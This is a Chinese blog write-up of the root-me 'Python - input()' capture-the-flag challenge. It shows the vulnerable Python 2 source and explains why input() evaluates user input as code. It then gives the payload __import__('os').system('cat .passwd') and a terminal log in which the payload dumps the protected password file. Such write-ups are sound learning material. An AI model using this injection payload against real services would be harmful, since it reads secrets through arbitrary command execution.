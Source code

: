 <!--yml
category: 未分类
date: 2022-04-26 14:42:07
-->

# CTF-rootme 题解之Python - input()_weixin_30612769的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30612769/article/details/99600322](https://blog.csdn.net/weixin_30612769/article/details/99600322)

LINK:[https://www.root-me.org/en/Challenges/App-Script/Python-input](https://www.root-me.org/en/Challenges/App-Script/Python-input)

Reference:[https://blog.51cto.com/12332766/2299894?cid=729687](https://blog.51cto.com/12332766/2299894?cid=729687)

SourceCode:

```
 #!/usr/bin/python2

    import sys

    def youLose():
        print "Try again ;-)"
        sys.exit(1)

    try:
        p = input("Please enter password : ")
    except:
        youLose()

    with open(".passwd") as f:
        passwd = f.readline().strip()
        try:
            if (p == int(passwd)):               
                print "Well done ! You can validate with this password !"
        except:
            youLose() 
```

**input()函数产生漏洞的原因**:

python2中,此函数会将stdin输入的内容当做python代码去执行（就像执行计算式3+2一样，将其看做python代码，通过计算返回结果）

**import()**:是python中的内置函数，同语法import *相同，都是调用模块
system()就是os模块中的方法，此方法用来调用系统命令*

exploit: `__import__('os').system('cat .passwd')`

app-script-ch6@challenge02:~$ ./setuid-wrapper
Please enter password : **__import__('os').system('cat .passwd')**
13373439872909134298363103573901